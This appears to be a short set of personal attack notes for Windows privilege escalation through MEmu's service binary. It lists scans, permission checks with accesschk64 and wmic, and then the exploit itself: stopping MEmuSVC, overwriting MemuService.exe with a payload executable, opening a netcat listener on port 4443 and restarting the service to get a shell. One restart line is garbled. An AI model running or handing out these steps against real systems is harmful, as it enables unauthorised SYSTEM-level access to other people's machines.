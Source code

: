 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
C:\Users\user\Desktop\Tools\PsInfo.exe /accepteula -s

wmic service get name | findstr /i /v "C:\Windows\\""

C:\Users\user\Desktop\Tools\accesschk64.exe -wvu "C:\Program Files\Microvirt\MEmu\MemuService.exe"

C:\Users\user\Desktop\Tools\accesschk64.exe /accepteula -ucqv user MEmuSVC

net stop MEmuSVC

copy /y usp_payload.exe "C:\Program Files\Microvirt\MEmu\MemuService.exe"

nc -nlvp 4443

net start net stop MEmuSVC

go back to listening terminal